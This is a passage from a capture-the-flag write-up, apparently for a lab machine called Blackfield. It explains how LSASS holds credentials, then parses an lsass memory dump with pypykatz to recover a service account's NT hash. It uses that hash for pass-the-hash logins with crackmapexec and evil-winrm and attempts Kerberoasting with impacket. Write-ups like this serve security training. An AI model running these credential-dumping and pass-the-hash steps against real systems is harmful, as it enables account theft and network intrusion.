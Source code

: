### Dump plaintext credentials and hashes from lsass.exe
LSASS is short for Local Security Authority Subsystem Service, and it stores credentials in memory on behalf of a user that hash an active or recently active session. This allows the user to access network recourses withouth re-typing their credentials for each service. LSASS may store credentials in multiple forums, including reverisbly passwords, Kerberos tickets, NT hash, LM hash, DPAPI keys and Smartcard PIN.

As anti-virus started catching on to that, attackers pivoted. A well known technique is to use procdump.exe from Sysinternals (and signed by Microsoft) to dump lsass.exe and then exfil that memory dump and extract hashes from it in the attacker controlled space.

```bash
unzip lsass.zip

file lsass.DMP

ls -lh lsass.DMP 

pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
== LogonSession ==
authentication_id 406458 (633ba)
session_id 2
username svc_backup
domainname BLACKFIELD
logon_server DC01
logon_time 2020-02-23T18:00:03.423728+00:00
sid S-1-5-21-4194615774-2175524697-3563712290-1413
luid 406458
        == MSV ==
                Username: svc_backup
                Domain: BLACKFIELD
                LM: NA
                NT: 9658d1d1dcd9250115e2205d9f48400d
```

### Login as svc_backup and get user flag
```bash
crackmapexec winrm $IP -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
evil-winrm -i $IP -u svc_backup -H 9658d1d1dcd9250115e2205d9f48400d
```

### Kerberoasting the service account(svc_backup) since SeBackupPrivileges Enabled
```bash
python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP -hashes :9658d1d1dcd9250115e2205d9f48400d 'BLACKFIELD.LOCAL/svc_backup' -request

python3 /usr/share/doc/python3-impacket/examples/GetUserSPNs.py -dc-ip $IP -hashes '':9658d1d1dcd9250115e2205d9f48400d 'BLACKFIELD.LOCAL/svc_backup' -request
```
No entries found!
